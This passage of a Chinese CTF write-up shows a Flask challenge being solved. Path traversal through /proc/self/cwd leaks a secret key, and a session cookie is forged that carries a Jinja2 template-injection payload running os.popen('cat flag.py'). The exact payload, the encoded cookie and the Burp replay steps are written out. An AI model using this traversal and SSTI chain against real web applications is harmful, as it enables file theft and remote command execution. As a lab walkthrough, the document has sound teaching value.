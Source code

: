还有一个问题式这个payload无法直接写入cookie中的session，因为session还用了key.py进行加密。

所以查看key.py，得到加密的密钥：

```
article?name=../../../proc/self/cwd/key.py
```

![image-20220812151727414](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220812151727414.png)

加密的话使用工具 **flask_session_cookie_manager3**：

https://codeload.github.com/noraj/flask-session-cookie-manager/zip/refs/heads/master

```
flask_session_cookie_manager3.py encode -s "Drmhze6EPcv0fN_81Bj-nA" -t "{'n1code': '{{\'\'.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__[\'os\'].popen(\'cat flag.py\').read()}}'}"
```

加密结果为

```
 .eJwdikEKgCAQAL8SXlYvQl2CviKxbGoRmCtZhxD_nnUbZqaI2Ft2XkyiFACNaAPljNjoOBnRDHPDfC-_961IZcb-k3vcr3_cAi8UWjLAGWadOPkowdLVrYE2nR5Q-vTkpKpV1BcrHygP.YZuIBg.eOXIyEYlDww9MHN2rJZpk13froc
```

那么这个就是我们的身份码n1code+命令执行语句，作为session被模板渲染后执行，就能读取flag文件

#### 执行攻击，拿到flag

最后使用burp开始抓包，填入在cookie的session字段填入构造的payload：

![image-20220812152116080](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220812152116080.png)

从回传的网页中得到flag。

#### 总结步骤(思路)

1. 利用linux下 /porc目录下文件作用查看当前运行进程，得到server.py

2. 分析server.py得知存在key.py flag.py（不可查取） 已经模板注入漏洞

3. 构造模板注入语句，并使用flask_session_cookie_manager3.py脚本加上密钥加密

4. burp改包实现session伪造，命令执行。得到flag。



**关于SSTI模板注入：**

http://elssm.top/2021/11/29/SSTI%E6%A8%A1%E7%89%88%E6%B3%A8%E5%85%A5/

https://www.freebuf.com/column/187845.html

**关于cookie、session、token：**

https://blog.csdn.net/qq_40925189/article/details/107030620